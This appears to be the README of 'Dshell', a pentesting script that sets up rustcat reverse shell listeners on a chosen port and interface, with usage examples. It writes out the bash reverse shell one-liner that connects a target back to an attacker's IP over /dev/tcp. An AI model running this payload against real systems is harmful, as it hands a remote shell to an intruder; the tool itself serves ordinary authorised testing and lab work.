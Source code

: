 ## Dshell

> "A reverse shell shows that true control comes when the target reaches back willingly."

**Dshell** is a reverse shell script that prepares a responsive shell on a specified port using [rustcat](https://github.com/robiot/rustcat).

---

### Features

* Quickly set up a reverse shell listener.
* Kill running Dshell processes on demand.
* Supports multiple network interfaces by default.

---

### Installation

Ensure [rustcat](https://github.com/robiot/rustcat) is installed on your system.

---

### Usage

#### Help Menu

```sh
dshell -h

[Info] Usage:
    /usr/local/bin/dshell -p <PORT> [IFACE|IP]
    /usr/local/bin/dshell -k <PORT|all>
```

---

#### Run a Listener

```sh
dshell -p <PORT> [IFACE|IP]
```

Dshell will output the most commonly used reverse shell `bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'` with the supplied IP and PORT
If no interface or IP is supplied, Dshell will try the following interfaces in order:

* `tun1`
* `tun0`
* `wlan0`
* `eth0`
* `lo`

---

#### Kill Running Processes

```sh
dshell -k <PORT|all>
```

* `<PORT>` 		– Kill Dshell process running on a specific port.
* `all` 		– Kill all Dshell processes.

---

#### Examples

Start a listener on port `4444` using `tun0` interface:

```sh
dshell -p 4444 tun0
```

Start a listener on port `4444` using the IP `1.1.1.1`:

```sh
dshell -p 4444 1.1.1.1
```

Kill `all` running Dshell processes:

```sh
dshell -k all
```

Kill Dshell processe that is listening on port `4444`:

```sh
dshell -k 4444
```
